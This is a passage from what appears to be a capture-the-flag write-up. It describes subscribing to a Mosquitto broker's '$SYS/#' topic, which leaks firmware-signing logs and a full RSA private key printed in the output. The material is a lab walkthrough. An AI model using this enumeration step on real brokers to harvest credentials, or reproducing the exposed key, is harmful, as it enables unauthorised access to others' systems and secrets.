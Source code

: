 [https://docs.oasis-open.org/mqtt/mqtt/v5.0/os/mqtt-v5.0-os.html\#\_Toc3901014](https://docs.oasis-open.org/mqtt/mqtt/v5.0/os/mqtt-v5.0-os.html#_Toc3901014) describes that topic subscription as: 

> $SYS/ has been widely adopted as a prefix to topics that contain Server-specific information or control APIs

"Server-specific information or control APIs" sounded promising.

### Finding user creds

In order to subscribe to `$SYS/#` I used some information from the `mosquitto.conf` file and the port I had found open from netstat.  `mosquitto_sub -h localhost -p 1883 -t '$SYS/#' -v`

```text
observer@player2:~$ mosquitto_sub -h localhost -p 1883 -t '$SYS/#' -v
$SYS/broker/version mosquitto version 1.4.15
$SYS/broker/timestamp Tue, 18 Jun 2019 11:42:22 -0300
...snipped...
$SYS/internal/firmware/signing Retrieving the key from aws instance
$SYS/internal/firmware/signing Key retrieved..
$SYS/broker/uptime 319 seconds
...snipped...
$SYS/internal/firmware/signing -----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEA7Gc/OjpFFvefFrbuO64wF8sNMy+/7miymSZsEI+y4pQyEUBA
R0JyfLk8f0SoriYk0clR/JmY+4mK0s7+FtPcmsvYgReiqmgESc/brt3hDGBuVUr4
et8twwy77KkjypPy4yB0ecQhXgtJNEcEFUj9DrOq70b3HKlfu4WzGwMpOsAAdeFT
+kXUsGy+Cp9rp3gS3qZ2UGUMsqcxCcKhn92azjFoZFMCP8g4bBXUgGp4CmFOtdvz
SM29st5P4Wqn0bHxupZ0ht8g30TJd7FNYRcQ7/wGzjvJzVBywCxirkhPnv8sQmdE
+UAakPZsfw16u5dDbz9JElNbBTvwO9chpYIs0QIDAQABAoIBAA5uqzSB1C/3xBWd
62NnWfZJ5i9mzd/fMnAZIWXNcA1XIMte0c3H57dnk6LtbSLcn0jTcpbqRaWtmvUN
wANiwcgNg9U1vS+MFB7xeqbtUszvoizA2/ScZW3P/DURimbWq3BkTdgVOjhElh6D
62LlRtW78EaVXYa5bGfFXM7cXYsBibg1+HOLon3Lrq42j1qTJHH/oDbZzAHTo6IO
91TvZVnms2fGYTdATIestpIRkfKr7lPkIAPsU7AeI5iAi1442Xv1NvGG5WPhNTFC
gw4R0V+96fOtYrqDaLiBeJTMRYp/eqYHXg4wyF9ZEfRhFFOrbLUHtUIvkFI0Ya/Y
QACn17UCgYEA/eI6xY4GwKxV1CvghL+aYBmqpD84FPXLzyEoofxctQwcLyqc5k5f
llga+8yZZyeWB/rWmOLSmT/41Z0j6an0bLPe0l9okX4j8WOSmO6TisD4WiFjdAos
JqiQej4Jch4fTJGegctyaOwsIVvP+hKRvYIwO9CKsaAgOQySlxQBOwMCgYEA7l+3
JloRxnCYYv+eO94sNJWAxAYrcPKP6nhFc2ReZEyrPxTezbbUlpAHf+gVJNVdetMt
ioLhQPUNCb3mpaoP0mUtTmpmkcLbi3W25xXfgTiX8e6ZWUmw+6t2uknttjti97dP
QFwjZX6QPZu4ToNJczathY2+hREdxR5hR6WrJpsCgYEApmNIz0ZoiIepbHchGv8T
pp3Lpv9DuwDoBKSfo6HoBEOeiQ7ta0a8AKVXceTCOMfJ3Qr475PgH828QAtPiQj4
hvFPPCKJPqkj10TBw/a/vXUAjtlI+7ja/K8GmQblW+P/8UeSUVBLeBYoSeiJIkRf
PYsAH4NqEkV2OM1TmS3kLI8CgYBne7AD+0gKMOlG2Re1f88LCPg8oT0MrJDjxlDI
NoNv4YTaPtI21i9WKbLHyVYchnAtmS4FGqp1S6zcVM+jjb+OpBPWHgTnNIOg+Hpt
uaYs8AeupNl31LD7oMVLPDrxSLi/N5o1I4rOTfKKfGa31vD1DoCoIQ/brsGQyI6M
zxQNDwKBgQCBOLY8aLyv/Hi0l1Ve8Fur5bLQ4BwimY3TsJTFFwU4IDFQY78AczkK
/1i6dn3iKSmL75aVKgQ5pJHkPYiTWTRq2a/y8g/leCrvPDM19KB5Zr0Z1tCw5XCz
iZHQGq04r9PMTAFTmaQfMzDy1Hfo8kZ/2y5+2+lC7wIlFMyYze8n8g==
-----END RSA PRIVATE KEY-----

$SYS/internal/firmware/signing Verifying signing..
$SYS/internal/firmware/signing Sent logs to apache server.
```
